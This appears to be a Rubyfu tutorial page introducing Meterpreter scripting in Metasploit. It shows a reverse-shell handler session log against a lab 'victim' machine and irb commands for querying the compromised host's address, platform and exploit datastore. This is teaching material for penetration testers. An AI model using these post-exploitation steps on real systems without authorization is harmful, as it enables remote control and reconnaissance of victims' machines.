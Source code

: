 # Meterpreter Scripting

From the official [wiki][1], The Meterpreter is an advanced payload that has been part of Metasploit since 2004. Originally written by Matt "skape" Miller, dozens of contributors have provided additional code, and the payload continues to be frequently updated as part of Metasploit development.

Meterpreter is a payload framework that provides APIs to interact with by writing scripts and plugins that increase its capabilities. You can find meterpreter scripts in `metasploit-framework/scripts/meterpreter` those scripts that you use in post exploitation using **run** (eg. getuid, getsystem, migrate, scraper, etc). Meterpreter source code is located in `metasploit-framework/lib/rex/post/meterpreter`.

Actually, you can't imagine the power of Meterpreter until you read its [wishlist and features][2] not just use it.


To get started, let's to get a Meterpreter shell on a victim machine to start practicing it inline then we can write some scripts 

Once you get the meterpreter shell type `irb` to be dropped into ruby's irb. Most of required modules will be loaded already. Then type `require 'irb/completion'` to support auto-completion for the irb console, just like the follows

```
msf exploit(handler) > run

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>> require 'irb/completion'
=> true
```
As you can see, you've been dropped to the irb console with an instance variable called `client` of the running meterpreter.

Try this as a start 
```ruby
print_good("Rubyfu!")
```
- To list all associated methods with `client` instance

This will return an array. 

```ruby
puts client.methods.sort
```
Let's to check some of the interesting methods there.

- Victim's IP address and port

```ruby
client.session_host
client.session_port
```

- Victim's computer information and plat form

```ruby
client.info
client.platform
```

Returns
```ruby
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

=> "x86/win32"
```

- Get the current exploit datastore

```ruby
client.exploit_datastore
# Or 
client.exploit.datastore
```

Returns a hash contains all the exploit information that result to this meterpreter session 

```ruby
{"VERBOSE"=>false, "WfsDelay"=>0, "EnableContextEncoding"=>false, "DisablePayloadHandler"=>false, "ExitOnSession"=>true, "ListenerTimeout"=>0, "payload"=>"windows/meterpreter/reverse_tcp", "LPORT"=>4444, "ReverseConnectRetries"=>5, "ReverseAllowProxy"=>false, "ReverseListenerThreaded"=>false, "PayloadUUIDTracking"=>false, "EnableStageEncoding"=>false, "StageEncoderSaveRegisters"=>"", "StageEncodingFallback"=>true, "PrependMigrate"=>false, "EXITFUNC"=>"process", "AutoLoadStdapi"=>true, "AutoVerifySession"=>true, "AutoVerifySessionTimeout"=>30, "InitialAutoRunScript"=>"", "AutoRunScript"=>"", "AutoSystemInfo"=>true, "EnableUnicodeEncoding"=>false, "SessionRetryTotal"=>3600, "SessionRetryWait"=>10, "SessionExpirationTimeout"=>604800, "SessionCommunicationTimeout"=>300, "lhost"=>"192.168.0.18", "ReverseListenerBindPort"=>0, "TARGET"=>0}
```
































<br><br><br>
---
[1]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter
[2]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist
[3]: https://dev.metasploit.com/documents/meterpreter.pdf